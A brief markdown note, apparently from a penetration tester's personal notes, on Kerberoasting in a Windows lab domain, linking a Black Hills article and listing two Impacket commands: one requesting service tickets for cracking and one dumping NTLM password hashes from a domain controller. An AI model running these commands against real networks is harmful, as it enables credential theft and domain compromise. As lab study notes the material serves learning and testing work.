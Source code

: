 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - KnownExploits
---
```

https://www.blackhillsinfosec.com/a-toast-to-kerberoast/

`GetUserSPNs.py -request -dc-ip 192.168.2.160 lab.local/zuul`

`secretsdump.py -just-dc-ntlm LAB/sqladmin@192.168.2.160`